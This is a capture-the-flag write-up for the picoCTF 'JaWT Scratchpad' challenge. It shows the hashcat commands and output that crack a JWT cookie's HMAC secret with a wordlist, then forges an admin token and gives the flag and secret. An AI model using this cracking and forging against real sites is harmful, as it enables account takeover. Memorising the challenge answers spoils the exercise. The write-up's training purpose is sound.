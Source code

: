 # JaWT Scratchpad

## Description

Check the admin scratchpad! https://jupiter.challenges.picoctf.org/problem/61864/ or http://jupiter.challenges.picoctf.org:61864

## Hint(s)

1. What is that cookie?
2. Have you heard of JWT?


## Writeup 
By opening the url and playing with the website and inputting a name for it to log us in. We'll be using "Galaxy" here.

After doing so, you will be redirected to a page where youre "logged in" and can use the scratch pad. 
But if we look at the cookies, we can see a cookie named "**jwt**".

Going to jwt.io and trying to decode the cookie gives us this
```
{
  "user": "Galaxy"  
}
```
Now, we know that we need to find the secret key. If we look at the bottom of the website it mentions the name "John" which hints john the ripper, or in other words, brute forcing.

I found using john the ripper to be problematic since it doesnt support JWT and you have to use jwtcrack to convert the cookie so that it can be used by john the ripper.

Instead, i used hashcat which was way simpler and easier.

By using: 
``` 
$ hashcat -h |grep JWT
```
We get:
```
16500 | JWT (JSON Web Token) 
```
So now we know that the hash type is 16500 (we can also see this [here](https://hashcat.net/wiki/doku.php?id=hashcat))

We now have to store the cookie in a file thats how hashcat reads input, i stored my cookie in `tmp/jwt.hash` 

All that we have to do now is to bruteforce the cookie using a wordlist. Its best to always try rockyou.txt before trying other wordlists :
```
$ hashcat -m 16500 /tmp/jwt.hash /usr/share/wordlists/rockyou.txt 
```
After a few seconds, hashcat returns:
```
yJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZ2FsYXh5In0.hc_Hrsq_psWftVU4lK3K17s9AL_x4ChaRG7F5HhyyrE:ilovepico
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: JWT (JSON Web Token)
Hash.Target......: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZ2...HhyyrE
Time.Started.....: Sun Jul  3 07:40:15 2022 (17 secs)
Time.Estimated...: Sun Jul  3 07:40:32 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   462.1 kH/s (3.85ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7397376/14344385 (51.57%)
Rejected.........: 0/7397376 (0.00%)
Restore.Point....: 7393280/14344385 (51.54%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: iloverobert!!! -> ilovemymum64.
```
The secret key is found! `ilovepico`

Now we create our payload using [jwt.io](jwt.io)
```
{
  "user": "admin"
}
```
And we add the secret key:
```
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
ilovepico
)
```
Then all thats left to do is go to the URL and change our cookie to the forged cookie, and bam. 

the flag is : `picoCTF{jawt_was_just_what_you_thought_1ca14548}`

# 
